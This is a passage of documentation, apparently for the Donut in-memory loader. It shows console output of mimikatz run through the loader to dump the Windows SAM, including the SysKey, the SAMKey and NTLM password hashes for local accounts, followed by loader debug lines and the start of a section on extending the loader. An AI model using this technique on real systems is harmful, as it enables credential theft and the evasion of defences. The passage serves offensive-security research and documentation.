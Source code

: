 
  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::sam
Domain : DESKTOP-B888L2R
SysKey : b43927eef0f56833c527ea951c37abc1
Local SID : S-1-5-21-1047138248-288568923-692962947

SAMKey : f1813d42812fcde9c5fe08807370613d

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: c288f1c30b232571b0222ae6a5b7d223

RID  : 000003e9 (1001)
User : john
  Hash NTLM: 8846f7eaee8fb117ad06bdd830b7586c

RID  : 000003ea (1002)
User : user
  Hash NTLM: 5835048ce94ad0564e29a924a03510ef

RID  : 000003eb (1003)
User : test

mimikatz(commandline) # exit
Bye!

DEBUG: inmem_pe.c:338:RunPE(): Process terminated
DEBUG: inmem_pe.c:349:RunPE(): Erasing 1019904 bytes of memory at 00000178FF170000
DEBUG: inmem_pe.c:353:RunPE(): Releasing memory
DEBUG: loader/loader.c:343:MainProc(): Erasing RW memory for instance
DEBUG: loader/loader.c:346:MainProc(): Releasing RW memory for instance
DEBUG: loader/loader.c:354:MainProc(): Returning to caller
</pre>

<p>Obviously you should be cautious with what files you decide to execute on your machine.</p>

<h2 id="loader">13. Extending The Loader</h2>

<p>Donut was never designed with modularity in mind, however, a new version in future will try to simplify the process of extending the loader, so that others can write their own code for it. Currently, simple changes to the loader can sometimes require lots of changes to the entire code base and this isn't really ideal. If for any reason you want to update the loader to include additional functionality, the following steps are required.</p>
